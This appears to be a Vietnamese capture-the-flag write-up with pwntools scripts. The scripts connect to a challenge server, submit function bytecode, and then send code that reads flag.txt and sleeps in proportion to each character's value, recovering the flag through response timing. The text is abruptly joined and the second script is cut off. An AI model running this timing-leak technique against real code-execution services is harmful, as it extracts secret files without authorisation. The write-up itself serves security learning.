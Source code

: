 ```py


from pwn import *

def _answer_func(num_list: int):
    min: int = 1000
    max: int = -1000
    for num in num_list:
        if num < min:
            min = num
        if num > max:
            max = num
    return (min, max)




def main() -> None:

    s = remote("94.237.54.30", 56070)

    ans: bytes = _answer_func.__code__.co_code
    ans = ",".join([str(x) for x in ans])
    print(ans)
    
    print(s.recvuntil(b"(Choose wisely) > ").decode())

    s.sendline(b"1")

    print(s.recvuntil(b"(Answer wisely) >").decode())
    s.sendline(ans.encode())
   vài hàm leak ra thông tin gì đó về flag (ở đây nó leak ra dưới dạng thời gian phản hồi).

Khi ta gửi chương trình này:

```py
import time
flag = open('flag.txt', 'r').read()
time.sleep(ord(flag[{i}]) / 10)
```

Máy chủ sẽ chạy nó, trong khi nó vẫn thỏa mãn yêu cầu của sever và cũng leak cho chúng ta thông tin thêm về flag.

Từ đó, ta gửi yêu cầu nhiều lần lên lên máy chủ, mỗi lần đọc từng ký tự của flag khi đó chương trình sẽ tạm dừng chương trình một khoảng thời gian đúng bằng (ord(flag) / 10) nên ta tính toán khoảng thời gian chênh lệch là ta có flag ( trong đoạng code có bị trừ đi cho 2 là do một vài yếu tố mội trường như tốc độ mang, máy tính ảnh hưởng tới thời gian)

```py

import time
from base64 import *
from pwn import *

def main() -> None:

    flag = ""

    for i in range(100):

        code = f"""
import time
flag = open('flag.txt', 'r').read()
time.sleep(ord(flag[{i}]) / 10)
```